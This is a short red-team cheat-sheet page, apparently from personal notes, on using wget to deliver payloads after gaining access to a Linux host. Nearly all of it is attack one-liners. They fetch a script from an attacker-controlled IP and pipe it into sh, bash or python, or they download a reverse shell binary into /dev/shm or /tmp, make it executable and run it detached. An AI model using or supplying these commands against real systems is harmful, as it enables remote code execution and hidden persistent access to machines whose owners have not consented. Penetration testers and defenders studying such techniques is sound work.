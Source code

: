 # Wget

## 01 - Fileless Code Execution

This is useful if the machine doesn't have `curl` pre-installed so you can use `wget` to execute it in memory.

```
$ wget --no-hsts -qO- http[s]://<IP>/payload.sh | sh

$ wget --no-hsts -qO- http[s]://<IP>/payload.sh | bash

$ wget --no-hsts -qO- http[s]://<IP>/payload.py | python
```

## 02 - Dropping On Memory

> [!INFO] Got Permission Denied!
> If you get a `Permission denied` error while executing it in `/dev/shm/`. Check the [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Desktop/Linux/Host/0xM - System and Kernel Version/Manual/Living off the Land#^017cc1|mounted drives]] if `noexec` is configured. Otherwise execute it with a [[#01 - Fileless Code Execution|fileless]] method.

Download reverse shell binary and execute it.

```
$ wget --no-hsts -P /dev/shm http[s]://<IP>/payload; chmod +x /dev/shm/payload; /dev/shm/payload & disown

$ wget --no-hsts -O /dev/shm/payload http[s]://<IP>/payload; chmod +x /dev/shm/payload; /dev/shm/payload & disown
```

## 03 - Dropping On Disk

Download reverse shell binary and execute it.

```
$ wget --no-hsts -O /tmp/payload http[s]://<IP>/payload; chmod +x /tmp/payload; /tmp/payload & disown
```

## 04 - Compiled After Delivery

TODO: Fill this info

```
$ gcc -o payload payload.c && payload & disown
```

---
## References

### Source Repositories

- [hackerschoice: THC's favourite Tips, Tricks & Hacks (Cheat Sheet)](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet)

### GTFOBins

- [GTFOBins: wget](https://gtfobins.github.io/gtfobins/wget/)

### GTFOArgs

- [GTFOArgs: wget](https://gtfoargs.github.io/gtfoargs/wget/)

### DMCXBlue

- [DMCXBlue: Attachments - Scripting Files](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/initial-access/t1566-phishing/phishing-spearphishing-attachment/attachments-scripting-files)